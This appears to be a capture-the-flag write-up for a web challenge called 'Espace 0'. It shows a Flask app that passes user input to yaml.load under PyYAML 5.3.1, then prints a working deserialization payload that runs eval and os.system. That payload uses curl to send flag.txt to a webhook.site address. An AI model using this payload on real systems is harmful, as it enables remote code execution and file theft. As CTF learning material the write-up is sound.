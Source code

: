 ```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-10T23:38
---
```


## Espace 0

The hardest challenge of the web category, but was actually solved before Login Part 0 since my brain was dead

> You've used espace2, but what about espace0?
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4210/

As before the source, `main.py` was given

```python
from flask import Flask, request, render_template, Response
import yaml

app = Flask(__name__)
assert yaml.__version__ == "5.3.1"

@app.route("/")
def index():
    return render_template("./index.html")
    
@app.route("/", methods=["POST"])
def welcome():
    student_data = request.form.get("student_data")
    if not student_data:
        return Response("Please specify some data in YAML format", mimetype='text/plain')
    student_data = yaml.load(student_data)
    required_fields = ["id","name","class"]
    if type(student_data) != dict or "student" not in student_data or any(x not in student_data["student"] for x in required_fields):
        return Response("Malformed data. Please try again.", mimetype='text/plain')
    student = student_data["student"]
    return f"<h1>Welcome, {student['name']} ({student['id']})</h1> <br>Your class is <b>{student['class']}</b>"
```

There are no obvious vulunerabilities to this file.

But the `assert yaml.__version__ == "5.3.1"` part is quite suspicious.

A quite google search with keywords `pyyaml 5.3.1 vulnerabilities` leads us to `https://security.snyk.io/vuln/SNYK-PYTHON-PYYAML-590151`, a 9.8 scored RCE.

Conviniently a `uiuctf` writeup was included that explained how the exploit worked. https://hackmd.io/@harrier/uiuctf20

Apparently it was a zero day vulunrability used in a CTF, what a chad move. We can simply take their payload and use it here as google is allowed in CTFs.

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'PAYLOAD_HERE' ]]]`

### Sending the payload

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("os").system("curl -X POST --data-binary @flag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")' ]]]`

![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221164628024.png)

And after checking webhook.site for the recieved curl request

```
flag{yet_another_mal-coded_library}
```

Flag obtained
